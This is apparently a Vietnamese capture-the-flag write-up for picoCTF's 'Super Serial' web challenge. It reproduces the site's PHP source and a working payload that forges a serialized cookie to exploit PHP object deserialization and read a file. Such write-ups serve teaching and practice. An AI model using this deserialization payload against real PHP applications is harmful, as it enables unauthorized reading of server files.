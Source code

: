 # Super Serial

## Description

Try to recover the flag stored on this website http://mercury.picoctf.net:14804/

## Hint

The flag is at ../flag

## Point

130 points

## Solution

Khi truy cập vào task ta thấy 1 form login nhưng mk thề là nó chả làm gì đc.

![](img/img1.png)

Sau một hồi dùng dirseachh thì thấy có kha khá thư mục ẩn có thể truy cập : robots.txt, index.php, cookie.php, authentication.php.

Khi truy cập vào từng thư mục thì không có quá nhiều dữ kiện , tuy nhiên tại tệp **robots.txt** thì mk có một phát hiện đó là file *phps* - đây là file php nhưng ko thực thi code mà chỉ hiện code dưới dạng text.

> robots.txt
```
User-agent: *
Disallow: /admin.phps
```

Vậy ta có thể xem code các file php khác nhờ vào việc thêm 's' vào đuôi php.

> index.phps

```
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
        $con = new SQLite3("../users.db");
        $username = $_POST["user"];
        $password = $_POST["pass"];
        $perm_res = new permissions($username, $password);
        if ($perm_res->is_guest() || $perm_res->is_admin()) {
                setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
                header("Location: authentication.php");
                die();
        } else {
                $msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
        }
}
?>
```

> cookie.phps 

```
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

> authentication.phps

```
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
Ta có thể thấy khi đăng nhập thành công thì sẽ có một cookie được cấp , cookie  này sẽ phân biệt giữa guest và admin .

Không những vậy nếu người đăng nhập là admin thì phiên đăng nhập sẽ được ghi vào một file log (access_log).

Để ý trong class access_log có một biến $log_file , vì thế vector tần công sẽ là giả mạo cookie bằng cách truyền vào access_log biến $log_file = '../flag' .

```
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

Sau đó gửi cookie giả mạo này , trước tiên server sẽ decode và check xem cookie có đúng dạng >$perm_res = new permissions($username, $password); nhưng do ta truyền vào là >..flag nên sẽ phát sinh lỗi và chương trình sẽ thực hiện :

```
catch(Error $e){
		die("Deserialization error. ".$perm);
	}
```
Việc này sẽ dẫn đến thực hiện các hàm :

```
function __toString() {
		return $this->read_log();
	}
function read_log() {
		return file_get_contents($this->log_file);
	}
```

Vì thế thứ thực sự được in ra sẽ là flag .

## Payload
```
<?php

class access_log
{
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }

    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
}

$perm_res = new access_log("../flag");
$perm_res_encoded =  urlencode(base64_encode(serialize($perm_res)));
echo $perm_res_encoded;
```

Sau khi giả mạo cookie bạn chỉ cần gửi nó lên và get flag .
